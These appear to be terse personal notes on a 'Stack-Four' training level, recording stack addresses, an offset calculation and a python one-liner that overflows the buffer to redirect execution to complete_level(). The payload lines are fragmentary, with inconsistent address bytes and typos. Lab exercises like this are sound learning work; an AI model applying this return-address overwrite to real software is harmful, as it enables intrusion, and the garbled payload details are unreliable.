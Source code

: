 # Stack-Four

0x0000fffffffffb90 stack after stp in start level
0x0000fffffffffc00 after stp in main

c00-b90 = 70

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa to overflow the stack back to the beginning (x29)

0x0000000000400714 complete_level()

python -c 'print "a"*96 + "\x40\x07\x14"' | ./stack-four

0x0000000000400748

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x00\x00\x0\x0\x0\x40\x07\x14

0x40078c this is the actual return address

0xfffffffffba0